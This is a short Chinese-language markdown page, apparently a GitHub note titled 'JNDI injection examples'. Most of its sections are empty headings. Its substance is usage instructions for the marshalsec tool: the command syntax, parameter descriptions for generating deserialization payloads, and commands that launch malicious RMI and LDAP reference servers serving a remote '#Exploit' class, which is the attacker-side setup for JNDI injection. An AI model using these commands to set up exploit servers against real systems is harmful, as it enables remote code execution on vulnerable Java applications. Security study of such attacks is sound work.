



# JNDI 注入范例


## 注入利用原理：



## RMI 服务注册：



## JDNI 服务注册：



## 或 使用 "marshalsec-0.0.3-SNAPSHOT-all" 工具启用：

### marshalsec命令格式如下：
``` java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]```

### 参数说明：
```
-a：生成exploit下的所有payload(例如：hessian下的SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin）
-t：对生成的payloads进行解码测试
-v：verbose mode, 展示生成的payloads
gadget_type：指定使用的payload
arguments - payload运行时使用的参数
marshalsec.<marshaller>：指定exploits，根目录下的java文件名
```


### 开启RMI服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#Exploit 1099```

### 开启LDAP服务
```java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#Exploit 1389```


## 以及其他漏洞利用方法
。。。。


